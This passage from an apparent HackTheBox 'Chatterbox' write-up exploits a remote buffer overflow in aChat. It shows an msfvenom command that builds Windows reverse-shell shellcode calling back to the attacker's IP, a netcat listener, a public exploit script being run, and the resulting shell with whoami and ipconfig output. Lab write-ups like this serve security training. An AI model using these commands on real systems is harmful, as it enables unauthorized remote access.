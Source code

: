 It works! We successfully recieved 4 ICMP requests!

**With that said, the target's aChat application is vulnerable to Remote Buffer Overflow.**

Let's get a reverse shell!

- **Shellcode:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:29:21(HKT)]
└> msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.26 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
[...]
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
[...]
buf += b"\x79\x6f\x37\x65\x41\x41"
```

- **Replace the new shellcode and setup a `nc` listener:**

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:23:54(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
```

- **Run the exploit script:**

```
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:29:50(HKT)]
└> python2 36025.py
---->{P00F}!
```

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:23:54(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.74] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami && ipconfig
whoami && ipconfig
chatterbox\alfred

Windows IP Configuration


Ethernet adapter Local Area Connection 4:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.74
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{111D2FF5-EF2C-4D77-B44C-DBCE3AAABF4B}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>
```
